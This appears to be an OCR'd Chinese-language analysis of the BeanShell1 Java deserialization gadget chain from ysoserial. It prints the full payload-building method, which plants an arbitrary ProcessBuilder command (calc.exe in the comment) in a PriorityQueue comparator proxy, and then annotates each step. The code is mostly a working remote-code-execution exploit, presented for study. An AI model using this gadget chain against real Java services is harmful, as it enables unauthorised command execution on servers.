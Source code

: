 ```
  
    public PriorityQueue getObject(String command) throws Exception {  
        String payload = "compare(Object foo, Object bar) {new java.lang.ProcessBuilder(new String[]{" + Strings.join(Arrays.asList(command.replaceAll("\\\\", "\\\\\\\\").replaceAll("\"", "\\\"").split(" ")), ",", "\"", "\"") + "}).start();return new Integer(1);}";  
        Interpreter i = new Interpreter();  
        i.eval(payload);  
        XThis xt = new XThis(i.getNameSpace(), i);  
        InvocationHandler handler = (InvocationHandler)Reflections.getField(xt.getClass(), "invocationHandler").get(xt);  
        Comparator comparator = (Comparator)Proxy.newProxyInstance(Comparator.class.getClassLoader(), new Class[]{Comparator.class}, handler);  
        PriorityQueue<Object> priorityQueue = new PriorityQueue(2, comparator);  
        Object[] queue = new Object[]{1, 1};  
        Reflections.setFieldValue(priorityQueue, "queue", queue);  
        Reflections.setFieldValue(priorityQueue, "size", 2);  
        return priorityQueue;  
    }  
  
    public static void main(String[] args) throws Exception {  
        PayloadRunner.run(BeanShell1.class, args);  
    }  
}

```  
## 第一部分  
```
String payload = "compare(Object foo, Object bar) {new java.lang.ProcessBuilder(new String[]{"  
        +  
        Strings.join(Arrays.asList(command.replaceAll("\\\\", "\\\\\\\\")  
        .replaceAll("\"", "\\\"").split(" ")), ",", "\"", "\"")  
        +  
        "}).start();return new Integer(1);}";  
// compare(Object foo, Object bar) {new java.lang.ProcessBuilder(new String[]{"calc.exe"}).start();return new Integer(1);}  
Interpreter i = new Interpreter();  
i.eval(payload);

```  
  
主要是构造了payload  
然后调用eval  
进行执行。  
## 第二部分  
```
// 动态代理获得了增强对象comparator  
XThis xt = new XThis(i.getNameSpace(), i);  
// 获取invocationHandler的值  
Field invocationHandler = Reflections.getField(xt.getClass(), "invocationHandler");  
InvocationHandler handler = (InvocationHandler)invocationHandler.get(xt);  
  
Comparator comparator = (Comparator)Proxy.newProxyInstance(Comparator.class.getClassLoader(), new Class[]{Comparator.class}, handler);

```  
  